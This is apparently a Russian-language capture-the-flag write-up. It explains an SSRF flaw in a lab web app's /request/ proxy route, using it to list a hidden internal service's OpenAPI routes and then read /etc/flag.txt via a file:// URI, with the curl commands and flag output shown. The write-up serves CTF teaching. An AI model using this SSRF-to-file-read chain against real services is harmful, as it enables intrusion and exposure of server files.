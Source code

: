# Микросервис за микросервисом

## Исследование

Имеем простенький фронт, на котором только отображается немного данных. Если залезем в devtools, то увидим что делаются запросы на сервисы, которые возвращает ручка `/active`:

```
[
  {
    "id": 0,
    "is_public": true,
    "protocol": "OpenAPI",
    "name": "ChaikaCleaning",
    "addr": "cleaning-chaika-local"
  },
  {
    "id": 1,
    "is_public": true,
    "protocol": "OpenAPI",
    "name": "ChaikaDoormanCargo",
    "addr": "doorman-chaika-local"
  },
  {
    "id": 2,
    "is_public": true,
    "protocol": "OpenAPI",
    "name": "ChaikaFlagsLaundry",
    "addr": "laundry-chaika-local"
  },
  {
    "id": 3,
    "is_public": false,
    "protocol": "OpenAPI",
    "name": "ChaikaOffices",
    "addr": "offices-chaika-local"
  }
]
```

Отображается только то, что имеет параметр `is_public=true`. Но нас интересует то, как выполняется запрос:
```
function getHelloFromService(serveraddr) {
            var req = new XMLHttpRequest();
            req.open("GET", '/request/http://' + serveraddr + "/", false);
            console.log("REQUESTING " + '/request/http://' + serveraddr + "/");
            req.send();
            return resp = JSON.parse(JSON.parse(req.response)['Data'])['message'];
        }
```
Т.е. делается запрос в интранет без валидации или проверок. На лицо - уязвимость класса `SSRF`. Но где флаг?

Если мы перейдем на какой-нибудь из сервисов, то увидим, что на `/` просто возвращается hello из сервиса. Но в информации о сервисах есть подсказка: `"protocol": "OpenAPI"`. Если попробовать сделать запрос на стандартную ручку `/docs` то нам что-то вернется, но есть проблема - нам возвращается просто текстовый выхлоп, а не рендер странички. Соответственно делаем запрос к json, который возвращает информацию о роутах в `/docs` - `/openapi.json`.

В случае с сервисом `ChaikaFlagsLaundry` этот путь нас выведет на фейковый флаг и мем с Каневским. Правильный путь - сделать запрос на сервис `ChaikaOffices` и изучить роуты на нем.

Маленькой сложностью может быть то, что url необходимого сервиса передается на роут `/request` в качестве path-параметра. Это слегка нарушает ряд RFC, но если так можно делать - кто-то точно делает :)

## Эксплуатация

Делаем запрос на роуты в сервисе офисов:
```
-> $ curl "http://127.0.0.1:7513/request/http://offices.chaika.local/openapi.json"
```
Узнаем, что там есть следующие роуты:
- `/`
- `/getoffice`
- `/file/{href}`

Второй роут даст нам подсказку, что третий роут предназначен для того, чтобы вытаскивать файлы с сервиса напрямую. Пытаемся вытащить флаг при помощи URI схемы `file://`:
```
-> $ curl "http://176.114.65.9:26564/request/http://offices-chaika-local/file/file:///etc/flag.txt"
{
    Status: "Ok",
    Data: "{\"Status\":\"Ok\",\"Data\":\"crab{r00m_s3rv1c3_w1th_4_t4st3_0f_3xpl0it_621888d48ee067}\"}"
}
```

## Флаг

`crab{r00m_s3rv1c3_w1th_4_t4st3_0f_3xpl0it_*}`
